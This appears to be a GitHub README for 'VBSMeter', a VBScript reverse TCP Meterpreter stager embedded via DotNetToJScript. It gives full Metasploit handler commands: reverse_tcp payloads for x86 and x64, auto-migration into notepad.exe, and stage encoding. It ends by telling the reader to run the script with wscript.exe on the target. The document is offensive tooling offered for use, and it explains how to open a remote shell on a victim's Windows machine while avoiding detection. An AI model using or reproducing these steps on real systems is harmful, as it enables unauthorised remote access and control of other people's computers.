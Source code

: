 ```
____   ______________  _________   _____          __                
\   \ /   /\______   \/   _____/  /     \   _____/  |_  ___________ 
 \   Y   /  |    |  _/\_____  \  /  \ /  \_/ __ \   __\/ __ \_  __ \
  \     /   |    |   \/        \/    Y    \  ___/|  | \  ___/|  | \/
   \___/    |______  /_______  /\____|__  /\___  >__|  \___  >__|   
                   \/        \/         \/     \/          \/       
```
### VBScript Reversed TCP Meterpreter Stager - by Cn33liz 2017
CSharp Meterpreter Stager build by Cn33liz and embedded within VBScript using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

This Stager should run on x86 as well as x64

```
Usage:
Change RHOST and RPORT settings to suit your needs.

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp <- When run from x64 version of wscript.exe
set PAYLOAD windows/meterpreter/reverse_tcp <- When run from x86 version of wscript.exe
set LHOST 0.0.0.0
set LPORT 443
set AutoRunScript post/windows/manage/migrate NAME=notepad.exe
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j

Then run: wscript.exe VBSMeter.vbs on Target
```
